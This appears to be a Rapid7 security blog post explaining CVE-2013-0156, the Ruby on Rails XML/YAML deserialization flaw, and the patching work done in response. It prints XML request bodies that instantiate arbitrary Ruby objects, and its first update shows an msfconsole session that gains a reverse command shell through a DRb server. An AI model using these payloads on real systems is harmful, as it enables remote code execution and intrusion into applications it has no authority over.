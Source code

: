 ```yaml
---
title: "Serialization Mischief in Ruby Land (CVE-2013-0156)"
url: http://r-7.co/VSbX6a
keywords: exploit,rails,sql,land,cve20130156,ruby,serialization,mischief,object,metasploit,using,application,symbol,code
---
```

This afternoon a [particularly scary advisory](https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion) was posted to the Ruby on Rails (RoR) security discussion list. The summary is that the XML processor in RoR can be tricked into decoding the request as a YAML document or as a Ruby Symbol, both of which can expose the application to remote code execution or SQL injection. A gentleman by the name of Felix Wilhelm [went into detail](http://www.insinuator.net/2013/01/rails-yaml/) on how the vulnerability works, but stopped short of providing a working proof of concept. These kinds of bugs are close to my heart, as Metasploit itself is written in Ruby, and we use Ruby on Rails within the Metasploit Community, Express, and Pro user interfaces.

We marshaled the troops and released a [security update](https://community.rapid7.com/docs/DOC-2143) for Metasploit users (**2013010202**), updated all of our own RoR applications with the [workaround](https://groups.google.com/forum/#!topic/rubyonrails-security/61bkgvnSGTQ/discussion), and started digging into the vulnerability itself.

Ben M. Murphy, a researcher working on this issue, [claims](http://www.reddit.com/r/netsec/comments/167c11/serious_vulnerability_in_ruby_on_rails_allowing/) that this can lead to direct system command execution in all Ruby on Rails web applications. If this pans out, this would put [thousands of production web sites](http://arstechnica.com/security/2013/01/extremely-crtical-ruby-on-rails-bug-threatens-more-than-200000-sites/) at risk of remote compromise.  Mr Murphy has not released his exploit code for the issue, but Felix\'s blog post provided enough information to start poking at the vulnerability.

To demonstrate the issue, send the following data as the body of a POST request to any RoR web application, with the Content-Type header set to \"application/xml\":

    <?xml version="1.0" encoding="UTF-8"?>
    <bang type="yaml">--- !ruby/object:Time {}
    </bang>

On the server side, this decodes to a live Time object:

    Parameters: {"bang"=>1969-12-31 18:00:00 -0600}

The mechanics of this bug allow for at least three different paths for exploitation:

1\. Trigger a SQL injection flaw by sending a Symbol in place of a parameter used in a Model.find\_by\*() call. This technique was discovered by [joernchen](https://twitter.com/joernchen) and [documented here](https://groups.google.com/forum/?fromgroups=#!topic/rubyonrails-security/DCNTNp_qjFM). This can be accomplished using both the YAML and Symbol types in the XML, but the Symbol format is easiest. **The original description was wrong, but SQL injection is still possible using Arel objects. Take a look at [Postmodern\'s blog post](https://github.com/ronin-ruby/ronin-ruby.github.com/blob/rails-pocs/blog/_posts/2013-01-09-rails-pocs.md) for more information on the SQL injection vector.**

2\. Allocate an arbitrary Ruby object and be able to set any instance variables. This object is sent instead of the expected parameter to the application. This can lead to all sorts of chaos, but doesn\'t provide remote code execution all by itself, since an object is required that does unsafe things with init\_with() or the application has to do something dangerous with the unexpected object parameter.

    <?xml version="1.0" encoding="UTF-8"?>
    <boom type="yaml"><![CDATA[--- !ruby/object:UnsafeObject
    attribute1: value1
    ]]></boom>

This results in a sequence that looks something like the following:

    obj = UnsafeObject.allocate
    if obj.respond_to?(:init_with)
      obj.init_with(.. attributes ..)
    else
      arguments.each_pair { |key,val| obj.instance_variable_set(key, val) }
    end

3\. Instantiate an arbitrary Ruby object and be able to call the \"\[\]=\" method with any desired parameters. This can be abused in a slightly different way and opens additional avenues for attack.

    <?xml version="1.0" encoding="UTF-8"?>
    <boom type="yaml"><![CDATA[--- !ruby/hash:UnsafeObject
    attribute1: value1
    ]]></boom>

This results in a different code path being taken:

    obj = UnsafeObject.new
    arguments.each_pair { |key,val| obj[key] = val }

In the case of \#1, the application must pass the Symbol parameter into a SQL query, which limits the attack surface to database-enabled applications. The interesting thing about methods \#2 and \#3 is that they will work regardless of whether the application does anything wtih SQL. The caveat is that the application needs to either do something unsafe with the unexpected object, or a class already in memory has to be abused through the init\_with() or \[\]= method handlers.

A quick review of common Ruby on Rails classes didn\'t turn up any obvious paths to exploit \#2 or \#3, but given Mr. Murphy\'s claims and the sheer number of code paths available, this is more than likely the worst security issue that the Rails platform has seen to date.

Stay tuned for more information on this flaw and more than likely a Metasploit module or two in the coming days.

-HD

**Update 1:** We are still looking into how this can be turned into a remote exploit, but for any application that has done a **require \"drb\"** somewhere in the dependency list, the following local exploit scenario works.\

First instantiate a DRb Server object in the Rails application using a request like the one below:\

    <?xml version="1.0" encoding="UTF-8"?>
    <boom type="yaml"><![CDATA[--- !ruby/hash:DRb::DRbServer {}
    ]]></boom>

Now open msfconsole and use the drb\_remote\_codeexec module to get a session as the web user. This is limited to the local system, since DRb picks a random port bound to localhost when instantiated with no arguments.

    $ msfconsole
    msf> use exploit/linux/misc/drb_remote_codeexec
    msf  exploit(drb_remote_codeexec) > set URI druby://localhost:45074
    msf  exploit(drb_remote_codeexec) > exploit
    [*] Started reverse double handler
    [*] trying to exploit instance_eval
    < snip >
    [*] Matching...
    [*] B is input...
    [*] Command shell session 1 opened (192.168.0.4:4444 -> 192.168.0.4:53299) at 2013-01-09 13:06:39 -0600
     
    id
    uid=1001(www) gid=1001(www) groups=1001(www)

**Update 2:** An anonymous contributor pointed us to a specific class that is exploitable using the ruby/hash method (\#3 above). The class is\
ActionDispatch::Routing::RouteSet::NamedRouteCollection. Expect a Metasploit module in the next 4-12 hours.

**Update 3:** The Metasploit module is [now available on GitHub](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/rails_xml_yaml_code_exec.rb) and handles Ruby on Rails versions 2 and 3.

**Update 4:** [A walkthrough of using the scanner and exploit modules](/2013/01/10/exploiting-ruby-on-rails-with-metasploit-cve-2013-0156) is now available

**Update 5:** [CVE-2013-0333](/2013/01/29/exploit-for-ruby-on-rails-cve-2013-0333). Second verse, same as the first, except this time. Metapsloit itself is not vulnerable.\
